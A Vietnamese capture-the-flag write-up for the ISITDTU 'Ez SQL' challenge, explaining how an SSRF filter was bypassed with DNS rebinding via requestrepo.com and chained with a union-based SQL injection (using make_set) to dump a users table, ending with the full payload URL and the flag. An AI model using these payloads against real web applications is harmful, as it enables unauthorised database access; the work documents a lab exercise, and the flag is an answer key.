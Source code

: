 # Ez SQL

Bài này là SSRF + SQLi.

## SQLi

SQLi nằm ở `home.php`, và ở đây có 1 đoạn check ip:

```php
if ($_SERVER['REMOTE_ADDR'] !== "127.0.0.1") {
  die("<center>This is not a private ip</center>");
}
```

Mình tải source về build lại, xoá đoạn check phía trên đi và thực hiện SQLi trước. Đây là payload:

```sql
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Do không tìm được tên cột nên mình sử dụng `select 1,2,3,4 union select * from users` để tạo table mới từ table users với các cột có tên là `1`, `2`, `3` và `4` sau đó dùng `make_set` để ghép các cột lại với nhau thành 1 cột duy nhất.

Phần SQLi đã xong, việc còn lại cần làm là bypass SSRF.

![200](images/200.jpg)

## SSFR

SSRF nằm ở `index.php` và ở đây cũng có 1 đoạn check ip:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```

Nếu hostname mình nhập vào có ip mà khác `127.0.0.1` và `0.0.0.0` thì `curl` sẽ được thực hiện. Lúc này mình cần 1 url có ip khác `127.0.0.1` để `curl` được thực hiện và có `REMOTE_ADDR` = `127.0.0.1` để SQLi được.

Ý tưởng của mình là sử dụng DNS Rebinding, tạo 1 url mà khi query đến nó sẽ ngẫu nhiên trỏ đến `127.0.0.1` hoặc một ip nào đó. Ở đây mình dùng [requestrepo.com](requestrepo.com) và config như sau:

![requestrepo_config](images/requestrepo_config.png)

Do nó sẽ trỏ ngẫu nhiên mà mình cần lần đầu tiên khi check `index.php` ip là `1.2.3.4` và lần sau tại `home.php` là `127.0.0.1`. Do đó cần request nhiều lần để thấy được flag.

Payload:

```url
http://meo.tg3xz1mm.requestrepo.com/home.php?id=1%20union%20select%201,make_set(1%7C4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`